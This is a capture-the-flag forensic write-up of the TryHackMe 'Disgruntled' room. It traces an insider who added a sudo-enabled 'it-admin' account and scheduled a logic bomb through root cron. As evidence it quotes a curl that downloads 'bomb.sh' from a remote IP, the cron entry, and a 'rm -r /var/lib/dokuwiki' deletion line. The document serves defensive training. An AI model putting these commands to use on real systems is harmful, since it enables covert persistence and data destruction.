










## Scenario Overview

An IT employee at the client CyberT was arrested by the police for running a phishing operation as a side gig. CyberT asked us to check whether he did anything malicious to the assets he worked on. The machine he last worked on was provided, with the hint to look at the **privileged commands** that were run.

The investigation reads `sudo` activity in the authentication logs, the new account's shell history, the system crontab and a script's metadata and content, and reconstructs what the insider set up before he was arrested.

---

## Attack Chain Overview

```
[1] Package install with root privileges (Dec 28, 06:17:30)
    └─ cybert: sudo /usr/bin/apt install dokuwiki
    └─ PWD=/home/cybert

[2] New account (06:26:52)
    └─ cybert: sudo /usr/sbin/adduser it-admin

[3] Sudo privileges granted (06:27:34)
    └─ cybert: sudo /usr/sbin/visudo

[4] Script created and edited (06:29:14)
    └─ it-admin: curl 10.10.158.38:8080/bomb.sh --output bomb.sh
    └─ it-admin: sudo /usr/bin/vi bomb.sh

[5] Script renamed and moved
    └─ /bin/os-update.sh (last modified Dec 28 06:29)

[6] Scheduled trigger
    └─ /etc/crontab: 0 8 * * * root /bin/os-update.sh → every day at 08:00 AM
    └─ Script removes /var/lib/dokuwiki and writes /goodbye.txt
```

---

## Question 1 — The user installed a package using elevated privileges. What is the full COMMAND?

### Commands

```bash
journalctl _COMM=sudo | grep -i "apt"
cat /var/log/auth.log* | grep -i "sudo" | grep "install"
```

### Investigation

Every command run through `sudo` is logged with the invoking user, terminal, working directory, effective user and the full command. Filtering the `sudo` entries for `apt` and `install` returns the package installation:

| Field | Value |
|---|---|
| Time | `Dec 28 06:17:30` (another execution at `06:19:01`) |
| User | `cybert` |
| TTY | `pts/0` |
| PWD | `/home/cybert` |
| USER (effective) | `root` |
| COMMAND | `/usr/bin/apt install dokuwiki` |

`dokuwiki` is a wiki application, and it is the first thing in the timeline that was installed with root privileges.

### Answer

```
/usr/bin/apt install dokuwiki
```


---

## Question 2 — What was the present working directory (PWD) when the previous command was run?

### Commands

```bash
journalctl _COMM=sudo | grep -i "apt"
cat /var/log/auth.log* | grep -i "sudo" | grep "install"
```

### Investigation

The same `sudo` log entry records the directory the command was launched from:

```
PWD=/home/cybert
```

The command was run from the suspect's own home directory.

### Answer

```
/home/cybert
```


---

## Question 3 — Which user was created after the package was installed?

### Commands

```bash
journalctl | grep "adduser"
cat /var/log/auth.log* | grep "adduser"
```

### Investigation

Searching for `adduser` shows an account being created through `sudo`:

| Field | Value |
|---|---|
| Time | `Dec 28 06:26:52` |
| User | `cybert` (via `sudo`, `USER=root`) |
| PWD | `/home/cybert` |
| Command | `/usr/sbin/adduser it-admin` |

The account was created about 9 minutes after the package installation. The name `it-admin` looks like a legitimate IT administration account, which makes it easier to overlook.

**MITRE ATT&CK:** T1136.001 — Create Account: Local Account

### Answer

```
it-admin
```


---

## Question 4 — When was the sudoers file updated?

### Command

```bash
cat /var/log/auth.log* | grep "visudo"
```

### Investigation

`visudo` is the safe way to edit `/etc/sudoers`. Its use through `sudo` is logged:

| Field | Value |
|---|---|
| Time | `Dec 28 06:27:34` |
| User | `cybert` (via `sudo`, `USER=root`) |
| TTY | `pts/0` |
| PWD | `/home/cybert` |
| Command | `/usr/sbin/visudo` |

This comes 42 seconds after `it-admin` was created. The log shows `visudo` being launched, not which line was added. The grant to `it-admin` is consistent with what follows in Question 5: that account then runs commands through `sudo` for the first time.

**MITRE ATT&CK:** T1098 — Account Manipulation

### Answer

```
Dec 28 06:27:34
```


---

## Question 5 — A script file was opened with the `vi` text editor. What is the name of this file?

### Command

```bash
cat /var/log/auth.log* | grep vi
```

### Investigation

Searching the authentication log for `vi` returns an entry showing the new account using `sudo`:

| Field | Value |
|---|---|
| Time | `Dec 28 06:29:14` |
| User | `it-admin` (via `sudo`, `USER=root`) |
| TTY | `pts/0` |
| PWD | `/home/it-admin` |
| Command | `/usr/bin/vi bomb.sh` |

Two minutes after receiving sudo rights, `it-admin` opened a script called `bomb.sh` as root. The name signals what it was meant to do.

### Answer

```
bomb.sh
```


---

## Question 6 — What command created the file `bomb.sh`?

### Command

```bash
cat /home/it-admin/.bash_history
```

### Investigation

The shell history of the `it-admin` account shows how the script reached the machine: it was downloaded from a remote server and saved under the name `bomb.sh`:

```bash
curl 10.10.158.38:8080/bomb.sh --output bomb.sh
```

| Component | Meaning |
|---|---|
| `curl` | Download tool |
| `10.10.158.38:8080` | Remote server hosting the script (HTTP, port 8080) |
| `/bomb.sh` | The script that was fetched |
| `--output bomb.sh` | Saves the response to a local file with that name |

The script wasn't written on the host; it was pulled from another machine, so that server belongs in the list of indicators.

**MITRE ATT&CK:** T1105 — Ingress Tool Transfer

### Answer

```
curl 10.10.158.38:8080/bomb.sh --output bomb.sh
```


---

## Question 7 — The file was renamed and moved. What is its full path now?

### Command

```bash
cat /etc/crontab
```

### Investigation

The system-wide crontab lists a job that runs a script from `/bin`, a location that normally holds system commands, not custom scripts:

```
0 8 * * * root /bin/os-update.sh
```

The job runs as `root` and calls `/bin/os-update.sh`. The name imitates routine system maintenance, which is what makes a script placed in `/bin` unlikely to draw attention. This is the renamed and relocated `bomb.sh`, as the room frames it, and the metadata in Question 8 fits: the file was last modified at `06:29`, right after the `vi` session on `bomb.sh`.

**MITRE ATT&CK:** T1036.005 — Masquerading: Match Legitimate Name or Location | T1053.003 — Scheduled Task/Job: Cron

### Answer

```
/bin/os-update.sh
```


---

## Question 8 — When was the file last modified?

### Command

```bash
stat /bin/os-update.sh
```

### Investigation

`stat` shows the file's timestamps. The `Modify` field reports:

```
Modify: 2022-12-28 06:29:43.998004273 +0000
```

In the requested format, that is `Dec 28 06:29`.

The modification time is about 29 seconds after `it-admin` opened `bomb.sh` in `vi` (`06:29:14`), which matches the script being saved at the end of that editing session. Renaming or moving a file keeps its modification time, so the time reflects the last edit rather than the move.

### Answer

```
Dec 28 06:29
```


---

## Question 9 — What file will be created when the script executes?

### Command

```bash
cat /bin/os-update.sh
```

### Investigation

Reading the script shows what it does. Among its contents:

- a command that removes the DokuWiki data directory: `rm -r /var/lib/dokuwiki`
- a redirection that writes a file: `> /goodbye.txt`

So when the script runs, it deletes the wiki installed in Question 1 and creates `/goodbye.txt` at the filesystem root. Together with the arrest, this fits a **logic bomb**: code planted by an insider so that something destructive happens on a schedule even after he is gone.

**MITRE ATT&CK:** T1485 — Data Destruction

### Answer

```
goodbye.txt
```


---

## Question 10 — At what time will the malicious file trigger?

### Command

```bash
cat /etc/crontab
```

### Investigation

Reading the cron schedule from Question 7:

```
0  8  *  *  *   root   /bin/os-update.sh
│  │  │  │  │
│  │  │  │  └─ any day of the week
│  │  │  └──── any month
│  │  └─────── any day of the month
│  └────────── hour 8
└───────────── minute 0
```

Minute `0`, hour `8`, every other field `*`: the script runs **every day at 08:00 AM**, as `root`, in the machine's local time (the `stat` output shows a `+0000` offset).

### Answer

```
08:00 AM
```


---

## Full Timeline (Dec 28, 2022)

| Time | User | Event |
|---|---|---|
| 06:17:30 | `cybert` | `sudo /usr/bin/apt install dokuwiki` (PWD `/home/cybert`) |
| 06:26:52 | `cybert` | `sudo /usr/sbin/adduser it-admin` |
| 06:27:34 | `cybert` | `sudo /usr/sbin/visudo` (sudoers edited) |
| `it-admin` session | `it-admin` | `curl 10.10.158.38:8080/bomb.sh --output bomb.sh` |
| 06:29:14 | `it-admin` | `sudo /usr/bin/vi bomb.sh` |
| 06:29:43 | — | Last modification of what is now `/bin/os-update.sh` |
| Daily 08:00 | `root` | Cron runs `/bin/os-update.sh` |

---

## Indicators of Compromise (IOCs)

| Type | Value | Description |
|---|---|---|
| Account | `cybert` | Suspect's account, ran the privileged commands |
| Account | `it-admin` | Account created by the suspect, later granted sudo |
| Package | `dokuwiki` | Installed with root privileges |
| Server | `10.10.158.38:8080` | Hosted `bomb.sh` |
| File | `bomb.sh` | Downloaded script |
| File | `/bin/os-update.sh` | Renamed/relocated script run by cron |
| Cron entry | `0 8 * * * root /bin/os-update.sh` | Daily trigger at 08:00 |
| Path | `/var/lib/dokuwiki` | Directory the script deletes |
| File | `/goodbye.txt` | File the script creates |
| Host | `ip-10-10-168-55` (`10.10.168.55`) | Affected asset |

---

## Commands Reference

```bash
# Q1 / Q2: Privileged package install, with PWD
journalctl _COMM=sudo | grep -i "apt"
cat /var/log/auth.log* | grep -i "sudo" | grep "install"

# Q3: New account
journalctl | grep "adduser"
cat /var/log/auth.log* | grep "adduser"

# Q4: Sudoers edit
cat /var/log/auth.log* | grep "visudo"

# Q5: Script opened with vi
cat /var/log/auth.log* | grep vi

# Q6: How bomb.sh was created
cat /home/it-admin/.bash_history

# Q7 / Q10: Scheduled execution
cat /etc/crontab

# Q8: File metadata
stat /bin/os-update.sh

# Q9: Script content
cat /bin/os-update.sh
```

---

## MITRE ATT&CK Mapping

| Phase | Technique ID | Technique Name | Evidence |
|---|---|---|---|
| Persistence | T1136.001 | Create Account: Local Account | `adduser it-admin` |
| Persistence | T1098 | Account Manipulation | `visudo` after the account was created |
| Command & Control | T1105 | Ingress Tool Transfer | `curl 10.10.158.38:8080/bomb.sh` |
| Defense Evasion | T1036.005 | Masquerading: Match Legitimate Name or Location | `/bin/os-update.sh` |
| Persistence | T1053.003 | Scheduled Task/Job: Cron | `0 8 * * * root /bin/os-update.sh` |
| Impact | T1485 | Data Destruction | `rm -r /var/lib/dokuwiki` in the script |

---

## Recommendations

1. **Remove the scheduled job and the script** — delete the `os-update.sh` line from `/etc/crontab` and the file itself. The next trigger is the next 08:00.
2. **Disable `it-admin` and `cybert`** — remove the `it-admin` account and revert the sudoers change made through `visudo`. Check `/etc/sudoers` and `/etc/sudoers.d/` for the exact entries.
3. **Restore or verify DokuWiki** — the script deletes `/var/lib/dokuwiki`. Confirm the data was not removed, and restore it from backup if it was.
4. **Block and investigate `10.10.158.38`** — the host that served `bomb.sh`. Check what else it served and who else connected to it.
5. **Audit other systems the suspect touched** — the same pattern (a new account, a sudoers edit, a root cron entry) should be searched for across his other assets.
6. **Alert on sudoers changes and new accounts** — `visudo` and `adduser` run through `sudo` should raise an alert, especially when they follow each other within minutes.
7. **Monitor system-wide cron files** — changes to `/etc/crontab` and `/etc/cron.*` should require review, and scripts placed in `/bin` or `/usr/bin` should be flagged.
8. **Revoke access on departure** — a privileged insider who is leaving or under investigation should have access removed immediately.

---

*Writeup produced as part of SOC Analyst training — TryHackMe: Disgruntled*